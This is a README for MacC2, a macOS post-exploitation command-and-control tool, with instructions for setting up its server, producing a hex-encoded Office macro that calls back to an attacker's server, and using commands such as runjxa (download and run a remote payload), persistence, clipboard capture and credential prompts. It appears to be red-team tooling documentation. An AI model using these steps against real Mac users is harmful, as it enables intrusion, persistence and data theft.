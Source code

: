 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. The client is written in python2, which though deprecated is still being shipped with base Big Sur installs. It is possible down the road that Apple will remove python2 (or python altogether) from base macOS installs but as of Nov 2020 this is not the case. Apple plans to eventually remove scripting runtimes from base macOS installs, but it is unknown when that will happen since Big Sur includes python. 

**This tool has been tested on Catalina and Big Sur. The only function that did not work as expected on Big Sur was the *systeminfo* command**

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. `chmod +x install_docker_linux.sh`
2. `sudo ./install_docker_linux.sh`

***Next:***
1. `chmod +x setup.sh`
2. `sudo ./setup.sh` **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server\
![Image](img/pic30.png)
4. when prompted, enter the port that the MacC2 server will listen on\
![Image](img/pic31.png)
5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.\
![Image](img/pic32.png)
6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container. Once finished the MacC2 server will listen on the specified port:\
![Image](img/pic33.png)
7. You can run *docker ps* and validate that the MacC2 server is running
8. The setup script also sets up a shared mount between the container and the host. On the host, you can browse to /var/lib/docker/volumes/macc2/_data in order to access MacC2_client.py as well as macro.txt which you will need to port over to the target host.


You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

`pip install aiohttp` **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

`python3 -m pip install --upgrade --force pip`

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: `openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key`

- 2: `openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem`

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

`python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]`

-Example:

![Image](img/pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](img/pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
`python MacC2_client.py`

![Image](img/pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](img/pic6.png)

----------

## Using MacC2 ##

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](img/pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

`>>> runjxa <url_to_JXA_.js_payload>`

**Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing**

----------

## Additional Info ##

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

## Macro Limitations ##

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- persist: MacC2 can drop files to disk from a sandboxed macro payload. However, upon reboot the persistence will not execute due to the quarantine attribue on the dropped files.

- addresses

- prompt

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.
